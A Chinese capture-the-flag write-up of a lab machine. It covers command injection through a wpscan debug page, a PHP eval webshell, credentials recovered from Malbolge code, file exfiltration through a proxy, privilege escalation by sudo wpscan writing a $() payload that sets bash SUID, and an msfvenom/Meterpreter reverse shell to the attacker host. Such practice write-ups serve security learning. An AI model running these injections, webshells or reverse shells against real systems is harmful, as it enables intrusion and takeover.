





## 信息收集

```sh
root@kali:~# nmap 192.168.56.110 -p-       
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 23:25 -0400
Nmap scan report for 192.168.56.110
Host is up (0.0019s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DD:76:57 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 124.30 seconds
root@kali:~# nmap 192.168.56.110 -p 22,80 -A
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 23:27 -0400
Nmap scan report for 192.168.56.110
Host is up (0.0026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.66 (Debian)
MAC Address: 08:00:27:DD:76:57 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|5.X (87%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 - 5.19 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   2.61 ms 192.168.56.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.74 seconds
```

| 端口   | 服务 | 版本                                           |
| ------ | ---- | ---------------------------------------------- |
| 22/tcp | ssh  | OpenSSH 10.0p2 Debian 7+deb13u1 (protocol 2.0) |
| 80/tcp | http | Apache httpd 2.4.66 ((Debian))                 |

## 80 端口的枚举与分析

`http://192.168.56.101/`默认页面是apache的默认页面。

```sh
root@kali:~# dirsearch -u http://192.168.56.110/
# 扫描
[23:33:21] 200 -  521B  - /debug.php
[23:34:00] 200 -   21KB - /test.php
```



是WPScan的扫描器，这里运行的是命令，进行命令拼接：

```
/usr/local/bin/wpscan --url http://127.0.0.1 -e u,vp;ls;
```



可以执行命令。我当时想弹shell的，正向连接shell和反向连接shell我都试过，都不行，我就猜测它不出网。

## 漏洞利用

```sh
cmd=/usr/local/bin/wpscan --url http://127.0.0.1 -e u,vp;echo "<?php eval(\$_POST[1]);?>" > 1.php;
```

写一个木马放入1.php，用蚁剑连接成功。

## 系统信息枚举

```sh
cat /etc/passwd
```

发现`sky`用户。

```sh
find / -user sky 2>/dev/null | grep -v proc
```



访问`/opt/code`:

```malbolge
>b<;:9]~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:
987SRQ3INGFKJIBAe('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^
]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqp
onmlkjihgfe#cy~w|{zyxqvon4rTj0nmlNdcb(IHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$
#"!~}|{zyxwvutsrqponml*)i!&%$#"!x}v<]\[ZYXWVUTSRQPONMLKJ`_dcba`Y^W\Uy<;:9876
543210/.-,+*)?DCBA@?>=6;4Xyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJIH
GFEDCBA@?>=<;:9876543210LKJIHGFED=B;:^!~}|{zyxwvutsrqponml*)('&f$#zy~w=^]\[Z
YXWVUTSRQPONMiKaf_^]ba`_X|V[ZYXWPt76543210/.-,+*)('&<A:?>=<;:981U5u-,+O/o-&J
kjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876543INMLKJIHAFE>b%$@?!7
<;:981Uvutsrq/.-,+*)i'&}Cdcba`_^]\xwvutsrkji/Pf,MLKJIHGFEDCBA@?>=<;:98765432
10/.-,+*)('&%$#"!~}|{zyxwvutsrq/.-,+*)('~f${Aba`_^]\[wYutsrkpohg-edibgf_%p
```

当时只觉得这是一段无规律的文本，今早上睡起来，发现只有这个文件最可疑，因为我的目标就是横向移动到`sky`用户。

我把这段文本喂给`AI`，让他在网上搜索与该文本相似的内容，发现它是：`malbolge`语言的源码，在网上搜索malbolge在线运行网站:`https://malbolge.doleczek.pl/`

```
sky:Da8eag6NxbC1jJ9as8cb
```

## 初始访问

```sh
Linux Press 7.0.5-1-liquorix-amd64 #1 ZEN SMP PREEMPT liquorix 7.0-4.1~trixie (2026-05-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May 15 21:32:52 2026 from 192.168.56.1
sky@Press:~$ id
uid=1000(sky) gid=1000(sky) groups=1000(sky),100(users)
sky@Press:~$ sudo -l
Matching Defaults entries for sky on Press:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User sky may run the following commands on Press:
    (ALL : ALL) NOPASSWD: /usr/local/bin/wpscan
```

`sudo -l`: 可以以任意用户身份执行`wpscan`。

`wpscan`是wordpress的漏洞扫描软件，它会对目标网站发起请求，我的思路是：通过代理，让wpscan把/root/root.txt 外带出来。

```sh
# 终端1
sky@Press:~$ ruby3.3 -rsocket -e 's=TCPServer.new("127.0.0.1",8080); loop{c=s.accept; req=[]; while(l=c.gets); l=l.delete("\r"); req<<l; break if l=="\n"; end; STDERR.puts "----"; STDERR.print req.join; c.write "HTTP/1.1 200 OK\r\nContent-Length: 0\r\nConnection: close\r\n\r\n"; c.close }'
# 代理是 127.0.0.1:8080
# 终端2
sky@Press:~$ sudo wpscan --url http://127.0.0.1 -e cb --config-backups-list /root/root.txt --detection-mode passive --config-backups-detection aggressive --proxy http://127.0.0.1:8080 -v --force
```



`wpscan`就是用`ruby3`语言写的，既然这里可以运行`wpscan`，就证明这个环境里面有`ruby3`语言编译器，网站运行的php脚本，就证明环境里面php编译器，这是我打这个靶机，打完后看别人的wp想到的一些主意。我做到这里就结束了。

## 权限提升

群主的思路：wpscan 具有写入能力，利用wpscan的导出功能将具有`$(/tmp/sb/sb)`的url以json的格式导出到`/usr/local/bin/wpscan`中，创建`/tmp/sb/sb`文件，写入`chmod +s bash`，运行`sudo wpscan`，`bash -p` 就可以获得`root`权限。说说这里利用`json`的原因：`json`的键:值，其中的值和键是双引号覆盖的，双引号在bash中具有特殊意义，不影响`$()`里命令的执行。

```sh
sky@Press:~$ mkdir /tmp/sb
sky@Press:~$ cd /tmp/sb/
sky@Press:/tmp/sb$ touch sb
sky@Press:/tmp/sb$ echo "chmod +s /bin/bash" > sb
sky@Press:~$ chmod +x /tmp/sb/sb
sky@Press:~$ sudo wpscan --url 'http://sb$(/tmp/sb/sb)' -f json -o /usr/local/bin/wpscan
sky@Press:~$ sudo wpscan
sky@Press:~$ ls -al /usr/bin/bash
-rwsr-sr-x 1 root root 1298416 Mar  8 11:21 /usr/bin/bash
sky@Press:~$ bash -p
bash-5.2# id
uid=1000(sky) gid=1000(sky) euid=0(root) egid=0(root) groups=0(root),100(users),1000(sky)
bash-5.2# cat /root/*
GCmCXMjINR1Puj9holpl
flag{root-861019fa99fb86e5955f743036202ce8}
```

利用的思路对我来说，还是很新奇的。`wpscan` 这个命令到这里已经被毁掉了。

## 攻击链的总结

* 信息收集：`nmap`扫描发现`22\tcp 80\tcp`
* 80端口的枚举与分析：枚举发现`debug.php test.php`，分析`debug.php`发现其可以进行命令执行，上传木马，通过蚁剑访问，获取虚拟终端。
* 系统信息枚举：在目标系统上进行信息枚举发现`/opt/code`，它的内容为`malbolge`的源码，通过在线网站运行，获得`sky`的`ssh`凭证。
* sky的信息枚举：`sudo -l`列举出`wpscan`，`wpscan`可以进行漏洞分析，并对目标进行请求，我利用代理将flag外带出来的。

## 题外话

今天，群主说只有80、443端口可以出网，而我这周把春秋云镜的第一个徽章拿下了，想着练习一下metasploit工具，利用这个工具实现shell的反弹：

```sh
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=443 -f elf > shell.elf
```

生成shell.elf文件，并将这个文件上传到靶机上。

```sh
msf exploit(multi/handler) > use exploit/multi/handler 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > show options

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.101   yes       The listen address (an interface may be specified) # kali 的 ip
   LPORT  443              yes       The listen port # kali 要监听的端口


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.56.101:443 
[*] Sending stage (3090404 bytes) to 192.168.56.111
[*] Meterpreter session 2 opened (192.168.56.101:443 -> 192.168.56.111:59876) at 2026-05-16 03:36:16 -0400
```

`session` 会话已经打开，`ctrl + c`:

```sh
msf exploit(multi/handler) > sessions -l
# 列举当前会话
Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  2         meterpreter x64/linux  sky @ Press  192.168.56.101:443 -> 192.168.56.111:59876 (192.168.5
                                                6.111)
msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
# 切换到id为2的会话
meterpreter > shell
Process 676 created.
Channel 1 created.
id
uid=1000(sky) gid=1000(sky) groups=1000(sky),100(users)
# 这样我们就可以执行命令了
# ctrl+c
meterpreter > background 
# 将会话放到后台
[*] Backgrounding session 2...
msf exploit(multi/handler) >
# 结束会话
meterpreter > exit
```

学习别人的一个思路：

通过`php -S 127.0.0.1:8000`起一个服务好像更加简短，对于获取flag来说：



如何判断端口的开放情况，对于我来说又是一个新的问题，这个问题需要解决。
